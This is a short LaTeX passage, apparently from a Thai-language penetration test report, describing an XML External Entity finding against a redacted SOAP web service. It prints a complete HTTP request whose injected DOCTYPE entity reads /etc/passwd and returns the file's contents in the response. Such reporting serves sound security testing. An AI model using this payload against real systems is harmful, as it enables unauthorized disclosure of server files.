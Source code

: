 \subsection{XML External Entities (XXE)}

ผู้ทดสอบระบบสามารถใส่ XML Entities ที่สามารถใช้เรียก External Resource เข้าไปยัง HTTP Request เพื่อให้ตัว XML Parser นั้น Include ตัว External Resource ที่เราต้องการ (ในที่นี้คือไฟล์ /etc/passwd ที่เก็บรายชื่อ User ทั้งหมดในระบบ) แล้วส่งข้อมูลนั้นกลับมาผ่าน HTTP Response ซึ่งด้านล่างคือตัวอย่าง Request ที่ใช้ Exploit

\begin{lstlisting}[numbers=none] 
POST /wsgw/services/[REDACTED]SecureService HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
SOAPAction: urn:MSG
Content-Type: text/xml;charset=UTF-8
Host: [REDACTED]
Content-Length: 7973

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://[REDACTED]/webservice">
<soapenv:Header/>
<soapenv:Body>
<web:MSG>
<web:[REDACTED]><![CDATA[

<@\textcolor{red}{<!DOCTYPE doc [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>}@>

<Service value="Export">
<CorpName>[REDACTED]</CorpName>
<CorpId>&xxe;</CorpId>
<MessageType>14</MessageType>
<ReqUId>SECTEST\_20190916008</ReqUId>
<Data>
[...]  
</Data>
</Service>
]]></web:[REDACTED]>
</web:MSG>
</soapenv:Body>
</soapenv:Envelope>
\end{lstlisting}

และผลลัพธ์ที่ได้คือข้อมูลภายในไฟล์ /etc/passwd

